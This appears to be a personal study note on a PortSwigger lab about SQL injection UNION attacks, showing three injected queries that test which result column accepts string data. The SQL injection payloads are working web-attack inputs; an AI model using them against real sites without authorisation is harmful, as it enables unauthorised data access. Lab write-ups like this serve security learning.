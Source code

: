 # SQL injection UNION attack, finding a column containing text

## description 

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

## Analytics
<br>

Original sql:

```sql
select * from test_table where category = '
Gifts
'.......
```

<br>

Add union statement at the end to find each column's data type is string or not .
We already know this table have three columns from [[lab3]].
```sql
select * from test_table where category = '
Gifts' union select 'test',null,null -- 
'.......
```
<br>

```sql
select * from test_table where category = '
Gifts' union select null,'test',null -- 
'.......
```

<br>

```sql
select * from test_table where category = '
Gifts' union select null,null,'test' -- 
'.......
```

## Solving process
<br>

1. try first col.  ![[Pasted image 20211019170017.png]]
2. try second col . ![[Pasted image 20211019170105.png]] ![[Pasted image 20211019170159.png]]  **Error dowsn't occur, application's response contains some additional content including the injected string value**.<br>

3. try third col. ![[Pasted image 20211019170436.png]]

second col's data type is string.

<br>

related topic: [[union attacks]]
prev related lab: [[lab3]]